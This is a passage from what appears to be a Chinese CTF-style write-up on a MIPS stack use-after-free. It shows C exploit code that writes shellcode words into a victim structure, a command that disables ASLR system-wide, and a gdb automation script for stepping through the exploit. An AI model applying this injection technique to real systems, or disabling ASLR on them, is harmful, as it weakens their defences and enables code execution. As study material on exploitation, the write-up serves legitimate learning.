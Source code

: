 ```c
    // 此时victim指针存储在寄存器中，但没有被修改，所以直接无效内容，不写回栈
    barrier();
    // 此时victim变量没有对应的寄存器，从栈上加载victim内容，即0x00400f10
    victim._0=0xafa50004;
    victim._4=0x001d2021;
    victim._8=0x34050000;
    victim._12=0x3402000d;

    mystk._8=0x00400f20;
    barrier();
    victim._0=0x0000000c;
    victim._4=0x00022021;
    victim._8=0x001d2821;
    victim._12=0x34060040;
    
    mystk._8=0x00400f30;
    barrier();
    victim._0=0x3402000e;
    victim._4=0x0000000c;
    victim._8=0x00023021;
    victim._12=0x34040001;

    mystk._8=0x00400f40;
    barrier();
    victim._0=0x3402000f;
    victim._4=0x0000000c;
    victim._8=0x3402000a;
    victim._12=0x0000000c;
    return 0;
}
int main(){
    overwrite(stack_uaf());
    return 0;
}
```

## 调试
### 调试技巧
为了查看脚本对内存的影响可以把 c 语言编译成 mpis 汇编然后看每一条汇编指针 

这里有一个调试的技巧就是把断点下到这里。  

![gdb](https://raw.githubusercontent.com/4ak5ra/image/main/gdb.png)

然后每次 c 过去就可以看到每条指令对内存的影响了。 
为了方便查看内存还可以把地址随机化完全关闭
```bash
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'
```

调试到后面的指令的时候我们可能需要连续 c 上百次，这里就找了一个自动化调试的脚本。
```python
for i in b_slice:
    b_string += f"b *$rebase({i})\n"  
for i in range(1,51+56+176):
    b_string+= f"c\n"
# 14是b_read jal .Fstack_uaf  28是216行  25. 51是45行  

# gdbscript 用关键字参数传递
io = gdb.debug(
    [file_name, sys.argv[1]],  
    gdbscript=b_string        
)
```
